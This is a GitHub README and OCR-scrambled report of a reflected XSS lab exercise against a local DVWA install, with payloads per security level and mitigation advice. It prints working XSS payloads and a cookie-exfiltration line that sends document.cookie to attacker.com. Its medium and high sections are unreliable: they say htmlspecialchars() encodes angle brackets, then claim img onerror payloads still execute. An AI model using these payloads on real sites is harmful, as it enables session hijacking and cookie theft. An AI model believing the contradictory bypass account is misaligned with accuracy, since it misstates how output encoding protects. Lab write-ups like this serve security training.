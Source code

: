 








# Reflected-XSS-Assessment-DVWA

This project demonstrates a Reflected Cross-Site Scripting (XSS) attack using the Damn Vulnerable Web Application (DVWA).

## 🔍 Objective
To identify, exploit, and document reflected XSS vulnerability on DVWA.

## 📂 Files Included
- `payloads.txt`: List of XSS payloads tested
- `xss_report.md`: Documentation and PoC
- `/screenshot/`: Screenshot of successful XSS alert

## 🛡️ Mitigation
Sanitize user input using:
- HTML encoding
- JavaScript escaping
- Framework-level filters (e.g., React, Angular)

## 🧪 Tools Used
- DVWA (XAMPP setup)
- Burp Suite
- Chrome Dev Tools

## 💡 Outcome
Successfully exploited reflected XSS and documented the impact. Includes PoC image and mitigation strategy.

## 🔗 Author
Swarupa Pawbake  
📝 DVWA Reflected XSS Vulnerability Assessment
Report
📌 Vulnerability Type:
Reflected Cross-Site Scripting (XSS)
🔍 Description:
Reflected XSS occurs when user-supplied data is immediately returned by the web
application in the response, without proper sanitization. It allows attackers to execute
arbitrary JavaScript in the victim’s browser.
🧪 Test Environment:
•
•
•
•
•
Application: Damn Vulnerable Web Application (DVWA)
Module: Reflected XSS (xss_r)
Browser: Google Chrome
DVWA Security Levels: Low, Medium, High
Testing IP: 127.0.0.1:42001
🔐 Security Level: LOW
🔍 Source Code Behavior:
$name = $_GET['name'];
echo "<pre>Hello {$name}</pre>";
•
•
No sanitization
User input directly reflected into HTML🎯 Payload Used:
<script>alert(document.cookie)</script>
Result:
•
•
•
JavaScript executes
Alert box shows document.cookie
Cookie can be exfiltrated using:
<script>fetch('http://attacker.com/log?c='+document.cookie)</script>
Impact:
• Session hijacking
• Phishing attacks
• Cookie theftSecurity Level: MEDIUM
🔍 Source Code Behavior:
$name = htmlspecialchars($_GET['name']);
echo "<pre>Hello {$name}</pre>";
•
•
Uses htmlspecialchars() to encode <, >, " into HTML entities
Prevents basic scripts from executing🧪 Payloads Tried:
Payload
<script>alert(1)</script>
%3Cscript%3Ealert(1)%3C/script%3E
<img src=x onerror=alert(1)>
Result
Encoded, no
execution
Encoded
<svg/onload=alert(1)>
Success
Success
🛠️ Bypass Trick:
<img src=x onerror=alert(document.cookie)>
✅ Result:
•
•
Image-based payloads bypass encoding
Alert box pops up🧱 Security Level: HIGH
🔍 Source Code Behavior:
checkToken($_REQUEST['user_token'], $_SESSION['session_token'], 'index.php');
$name = htmlspecialchars($_GET['name']);
•
•
Validates CSRF token
Applies htmlspecialchars() on user input
⚠️ Protection Added:
•
•
•
Token-based validation
Token required in request URL (user_token)
Input still HTML-escaped
👣 Steps to Exploit:
1. Visit the vulnerable page2. Inspect element → get token:
<input type="hidden" name="user_token" value="abcd1234">
3. Construct payload URL http://127.0.0.1:42001/vulnerabilities/xss_r/?name=<img
src=x onerror=alert(1)>&user_token=abcd1234Result:If token is valid and image-based payload is used → JavaScript runs
Impact Summary
Level
Bypass Needed
Payload Example
Can Steal
CookieLowNone<script>Yes
MediumEncoding Bypass<img onerror>Yes
Token + Encoding
Bypass<img> + tokenYes
High
🛡️ Recommendations:
1. Context-aware encoding
a. Use htmlspecialchars() for HTML context
b. Use proper encoding for attributes, JavaScript, and URLs
2. Input validation
a. Only allow safe input characters (a-zA-Z0-9)
3. Content Security Policy (CSP)
a. Use script-src 'self' to prevent inline script execution
4. HttpOnly Cookies
a. Prevents document.cookie access from JavaScript
5. Sanitize Output
a. Use security libraries like OWASP ESAPI or built-in framework features
📂 Mitigation Code Sample:
$name = htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
echo "<pre>Hello {$name}</pre>";
Add HTTP Headers:
Content-Security-Policy: script-src 'self';
X-Content-Type-Options: nosniff📦 Report Summary Table
Parameter
Vulnerability
Affected Pages
Impact
Risk Level
Tested Levels
Tools Used
Status
Value
Reflected Cross-Site Scripting (XSS)
vulnerabilities/xss_r
JavaScript Execution, Cookie Theft
High
Low, Medium, High
Browser, DVWA
Confirmed 
